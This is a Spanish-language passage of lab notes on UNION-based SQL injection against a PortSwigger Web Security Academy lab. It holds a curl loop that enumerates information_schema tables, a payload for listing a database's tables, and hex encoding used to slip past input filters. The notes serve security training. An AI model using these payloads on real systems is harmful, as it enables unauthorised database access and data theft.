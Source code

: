 ```bash
for i in $(seq 1 100); do echo "[+] Para el nº $i: $(curl -s -X GET https://0ab0008404e1b04e80a80d2500ce005d.web-security-academy.net/filter\?category\=%27%20union%20select%20NULL,table_name%20from%20information_schema.tables%20limit%20$i,1--%20- | grep "<td>" | html2text)"; done
```

En caso de no obtener la respuesta, entrecomillar URL

```bash
for i in $(seq 1 100); do echo "[+] Para el nº $i: $(curl -s -X GET "https://0ab0008404e1b04e80a80d2500ce005d.web-security-academy.net/filter\?category\=%27%20union%20select%20NULL,table_name%20from%20information_schema.tables%20limit%20$i,1--%20-" | grep "<td>" | html2text)"; done
```

Resultado:

```bash
[+] Para el nº 1: CHECK_CONSTRAINTS
[+] Para el nº 2: COLLATIONS
[+] Para el nº 3: COLLATION_CHARACTER_SET_APPLICABILITY
[+] Para el nº 4: COLUMNS
[+] Para el nº 5: COLUMNS_EXTENSIONS
[+] Para el nº 6: COLUMN_STATISTICS
[+] Para el nº 7: EVENTS
[+] Para el nº 8: FILES
[+] Para el nº 9: INNODB_DATAFILES
[+] Para el nº 10: INNODB_FOREIGN
```

## Listar tablas de una base de datos

```sql
' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
```

**Query realizada**

![Captura](./Imágenes/web_3.png)

**Tablas existentes en la base de datos 'academy_labs'**

![Captura](./Imágenes/web_4.png)

### Cadena hexadecimal

En ocasiones, por seguridad de la página, puede ser que no podamos introducir ciertas cadenas como `'academy_labs`. Para estos casos podemos introducir la cadena en hexadecimal de la siguiente forma

```bash
 echo -n "academy_labs" | xxd -p
```

Resultado:

```bash
61636164656d795f6c616273
```
